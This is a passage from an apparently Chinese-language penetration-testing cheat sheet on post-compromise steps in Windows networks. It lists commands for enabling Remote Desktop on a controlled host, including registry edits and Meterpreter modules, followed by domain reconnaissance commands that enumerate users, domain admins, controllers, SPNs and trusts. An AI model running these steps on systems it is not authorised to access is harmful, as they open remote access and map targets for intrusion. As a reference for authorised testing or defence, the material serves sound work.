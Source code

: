 ```
 netsh advfirewall firewall add rule name= “deny tcp 138″ dir=in protocol=tcp localport=138 action=block


##查询并开启远程连接服务
查看远程连接端口
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "PortNumber"

windows 2003开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
或
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
windows 2008版本以后开启3389端口
REG ADD "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMAINAL SERVER" /v fsingleSessionPerUser /t REG_DWORD /d 0 /f

如果已经获取到meterpreter会话，可以使用以下命令开启3389端口
run getgui -e
run post/windows/manage/enable_rdp
```

### 域信息收集

```
	确定了内网拥有的域，且所控制的主机在域内，就可以进行域内相关信息收集了。本次介绍的查询命令在本质上都是通过LDAP协议到域控制器上进行查询的，所以在查询是需要进行权限认证。只有域用户才拥有此权限，本地用户无法运行本次介绍的命令（system用户除外）。
```

#### 域信息收集常用命令

```
net time /domain                            #查看时间服务器
net config workstation                      #查询当前登录域及登录用户信息
net user /domain                            #查询域内用户
wmic useraccount get /all                   #查询域内用户的详细信息
net user god /domain                        #查看指定域用户zzx的详细信息
net view /domain                            #查看有几个域
net view /domain:xxx                        #查看域内的主机
net group /domain                           #查看域里面的组
net group "domain users"  /domain           #查看域用户
net group "domain controllers" /domain      #查看域控制器
net group "domain computers" /domain        #查看域内所有的主机
net group "domain admins"  /domain          #查看域管理员,该组内的成员对域控拥有完全控制权
net group "enterprise admins" /domain       #查看企业管理组,该组内的成员对域控拥有完全控制权
net group "domain guest"  /domain           #查看域访客组,权限较低
setspn -T domain -q */*   					#spn扫描
nltest  /domain_trusts                      #查看域信任信息
net accounts /domain                        #查询域密码策略
whoami /user								#查看用户SID和域SID

以下命令只能在域控上查询
dsquery user                                #查询目录中的用户
dsquery computer                            #查询目录中的主机
dsquery group                               #查询目录中的组.
dsquery ou                                  #查询目录中的组织单元.
dsquery site                                #查询目录中的站点
dsquery server                              #查询域控
dsquery contact                             #查询目录中的联系人
dsquery subnet                              #查询目录中的子网
dsquery quota                               #查询目录中的配额规定.
dsquery partition                           #查询目录中的分区.
dsquery *                                   #用通用的LDAP查询来查找目录中的任何对 
```